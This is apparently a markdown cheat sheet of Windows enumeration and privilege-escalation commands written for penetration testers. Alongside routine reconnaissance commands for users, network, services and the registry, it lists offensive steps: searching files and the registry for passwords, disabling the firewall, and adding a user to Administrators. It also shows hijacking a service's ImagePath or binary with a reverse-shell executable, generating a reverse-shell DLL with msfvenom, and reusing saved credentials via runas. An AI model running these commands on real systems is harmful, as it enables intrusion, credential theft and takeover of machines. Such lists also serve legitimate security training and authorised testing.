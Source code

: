 # Useful Windows Enumeration Commands
## Users, Groups, Networking
- `echo %USERNAME%`
- list local admins
    - `net localgroup "Administrators"`
- add a user to the administrators' group
    - `net localgroup Administrators <username> /add`
- ARP table
    - `arp -a`
- Routing table
    - route print`
- `ipconfig /all`
- listening ports
    - `netstat -an | findstr LISTENING`
- PSA: `NT AUTHORITY\INTERACTIVE` is a psuedo-group for all user that can log on to the system locally

##  OS/Arch
- Get OS version
    - `ver`

## Domain commands
- `net user /domain`
- `net group /domain`
- list shares
    - `net share`
- list Password Policy
    - `net accounts /domain`

## Processes/Applications
- list remote processes/services
    - `tasklist /svc`
## Enumerating files & directories
- search files for passwords
    - `findstr /si password *.txt | *.xml | *.xls | *.ini`
- search files with pass in the name, or a config file
    - `dir /s *pass* == *.config`
- tree of C drive
    - `tree /F /A c:\ > tree.txt`
- search for all PDFs
    - `dir /a /s /b c:\*.pdf*`
- use accesschk to enumerate permissions of a file/dir
    -  `.\accesschk.exe /accepteula -uwdq "C:\Program Files\ Unquoted Path Service\"`

# Services
- show services 
    - `sc query state=all`
- query the configuration of a service
    - `sc qc <service-name>`
- query the current status of a service
    - `sc query <service-name>`
- modify the config option of a service
    - `sc config <service-name> <option>= <value>`
- start/stop a service
    - `net start/stop <service-name>`
- use accesschk to check user permissions on a service
    - `.\accesschk.exe /accepteula -uwcqv <user> <service-name>`
        - look for `SERVICE_CHANGE_CONFIG` and `SERVICE_START/SERVICE_STOP`

# Registry
- check a registry entry's ACL using powershell
    - `Get-Acl HKLM:\System\CurrentControlSet\Services\{service} | Format-List`
- check a registry entry's access using accesschk
    - `.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\{service}` 
        - `KEY_ALL_ACCESS` means full access
- check current values in registry entry
    - `reg query HKLM\SYSTEM\CurrentControlSet\services\{service}`
    - ObjectName will tell you what privs the service runs as
- change a registry config to point to a reverse shell executable
    - `reg add HKLM\SYSTEM\CurrentControlSet\services\{service} /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f` 
    - flags/values may differ, consult [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-add) for specific cases
- search registry for a password
    - `reg query HKLM /f password /t REG_SZ /s` - system
    - `reg query HKCU /f password /t REG_SZ /s` - user
- query registry for autorun programs
    - `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run `

# Other
- disable firewall
    - `netsh advfirewall set currentprofile state off`
    - `netsh advfirewall set allprofiles state off`
- DNS zone transfer
    - `nslookup, set type=any, ls -d domain > results.txt, exit`
- overwrite a service executable with a reverse shell
    - `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" `
- create a reverse shell DLL 
    - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip-address} LPORT={port} -f dll -o hijackme.dll`
- search for saved credentials & exploit them
    - `cmdkey /list`
    - `runas /savecred /user:{user} C:\PrivEsc\reverse.exe `
